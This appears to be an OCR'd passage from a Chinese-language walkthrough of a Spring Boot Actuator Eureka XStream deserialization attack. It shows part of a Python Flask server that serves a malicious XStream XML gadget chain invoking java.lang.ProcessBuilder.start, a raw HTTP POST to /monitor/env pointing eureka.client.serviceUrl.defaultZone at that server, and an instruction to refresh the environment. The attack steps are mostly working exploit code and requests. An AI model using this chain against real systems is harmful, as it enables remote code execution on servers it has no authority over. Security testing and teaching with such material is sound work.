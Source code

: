 ```python
                  <method>
                    <class>java.lang.ProcessBuilder</class>
                    <name>start</name>
                    <parameter-types/>
                  </method>
                  <name>foo</name>
                </filter>
                <next class="string">foo</next>
              </serviceIterator>
              <lock/>
            </cipher>
            <input class="java.lang.ProcessBuilder$NullInputStream"/>
            <ibuffer></ibuffer>
          </is>
        </dataSource>
      </dataHandler>
    </value>
  </jdk.nashorn.internal.objects.NativeString>
</linked-hash-set>"""
    return Response(xml, mimetype='application/xml')


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
```

然后POST请求 `/env` 接口，请求设置环境变量：

```http
POST /monitor/env HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: OFBiz.Visitor=10000
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 61

eureka.client.serviceUrl.defaultZone=http://127.0.0.1/example
```

最后请求后台刷新环境变量并重新加载环境变量：

![image-20210819181442753](/media/image-20210819181442753.png)
